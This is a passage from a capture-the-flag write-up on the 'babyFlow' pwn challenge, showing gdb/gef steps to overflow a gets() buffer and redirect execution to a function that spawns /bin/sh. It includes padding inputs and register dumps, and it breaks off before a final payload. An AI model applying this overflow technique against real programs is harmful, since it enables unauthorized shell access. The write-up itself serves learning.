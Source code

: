 **This function will execute `/bin/sh`.**

## Exploitation

Armed with above information, **we can try to overflow the EIP register, so that we can execute `/bin/sh`!**

**In `gdb`, we can set a breakpoint. Let's set it in `*main+54`, which is the `gets()` function is being called:**
```shell
gef➤  break *main+54
Breakpoint 1 at 0x804928c
```

**Then, we can run the executable:**
```shell
┌[siunam♥earth]-(~/ctf/Incognito-4.0/pwn/babyFlow)-[2023.02.18|15:09:26(HKT)]
└> python3 -c "print('A'*20)"
AAAAAAAAAAAAAAAAAAAA
```

```shell
gef➤  r
[...]
can you pass me?
[...]
gef➤  n
Single stepping until exit from function main,
which has no line number information.
AAAAAAAAAAAAAAAAAAAA

Program received signal SIGILL, Illegal instruction.
0xffffcf3e in ?? ()
[...]
──────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x804926d  →  <main+23> add ebx, 0x2d87
$ecx   : 0xf7ffda40  →  0x00000000
$edx   : 0xffffcdf4  →  "AAAA"
$esp   : 0xf7ffda40  →  0x00000000
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x804bef4  →  0x8049180  →   endbr32 
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0xffffcf3e  →  0xd186ffff
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
[...]
```

As you can see, the EIP register is not overflowed with `41`'s (A).

**Let's try to add more 4 bytes:**
```shell
┌[siunam♥earth]-(~/ctf/Incognito-4.0/pwn/babyFlow)-[2023.02.18|15:09:29(HKT)]
└> python3 -c "print('A'*20 + 'B' * 4)"
AAAAAAAAAAAAAAAAAAAABBBB
```
